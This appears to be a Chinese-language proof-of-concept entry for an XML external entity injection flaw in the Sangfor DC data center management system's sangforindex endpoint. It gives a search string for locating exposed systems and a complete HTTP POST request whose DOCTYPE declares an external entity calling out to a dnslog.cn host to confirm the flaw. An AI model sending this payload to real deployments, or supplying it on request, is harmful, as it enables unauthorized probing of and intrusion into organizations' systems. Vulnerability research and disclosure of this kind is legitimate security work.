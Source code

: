# 深信服 DC数据中心管理系统 sangforindex XML实体注入漏洞

## 漏洞描述

深信服 DC数据中心管理系统 sangforindex 接口存在XML实体注入漏洞，攻击者可以发送特定的请求包造成XML实体注入

## 漏洞影响

深信服 DC数据中心管理系统

## 网络测绘

```
"SANGFOR 数据中心"
```

## 漏洞复现

登陆页面

![image-20230828143259744](images/image-20230828143259744.png)

验证POC

```
POST /src/sangforindex HTTP/1.1
Host: 
Content-Type: text/xml

<?xml version="1.0" encoding="utf-8" ?>
<!DOCTYPE root [
    <!ENTITY rootas SYSTEM "http://xgsg1k.dnslog.cn">
]>
<xxx>
&rootas;
</xxx>
```

![image-20230828143318826](images/image-20230828143318826.png)